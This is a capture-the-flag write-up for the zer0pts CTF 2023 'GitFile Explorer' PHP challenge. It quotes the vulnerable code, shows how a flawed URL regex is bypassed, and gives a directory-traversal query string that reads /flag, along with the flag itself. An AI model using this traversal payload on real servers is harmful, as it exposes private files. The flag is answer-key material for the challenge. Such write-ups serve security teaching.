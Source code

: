 ```yaml
---
title: "zer0pts CTF 2023 - GitFile Explorer"
date: "2024-11-12"
tags:
  - writeups
  - ctf
  - php
  - lfi
toc: true
math: true
bold: 
nomenu: false
---
```



This is a single PHP file challenge that contains a "Git File Explorer", it basically fetches a file from github/gitlab/bitbucket that you specify in the form. The challenge here is to read `/flag` at the root.

I went through the code to see how we can possibly read the flag, and the only way it seem to be out of this snippet:

```php
if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```

It uses `file_get_contents` via a provided URL, the URL is constructed by the function `craft_url`.

```php
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}
```

Now lets figure out a way to bypass the first `strpos` matching. So first of all this function does not care where it sees the string it simply return true if it sees it somewhere, so that's good to know lets go the regex that we need to bypass somehow.

So the regex seems a bit off, I spotted two things at first, the `/m` which means multiline (ends up completely random and not related to the challenge) and that it doesn't enforce a column after http, which makes it easy to request a local file. Lets try to do that.

I've put some `echo`s here and there so that I can see if it bypasses it with the following payload:

```ini
/?service=https//github
```

And it does 

```log
[Tue Nov 12 09:43:14 2024] PHP Warning:  file_get_contents(https//github/ptr-yudai/ptrlib/master/README.md): Failed to open stream: No such file or directory in /home/.<>./gitfile-explorer/index.php on line 33
```

I can see that it tries to open the folder https in the current dir and so on, the problem is that it attaches the default settings of the other attributes, so we must use them as well. After a bit trial and error I've come up with this payload:

```ini
/?service=https//github&owner=..&repo=..&branch=..&file=../../../../../flag
```

Which reads the flag:

```
zer0pts{foo/bar/../../../../../directory/traversal}
```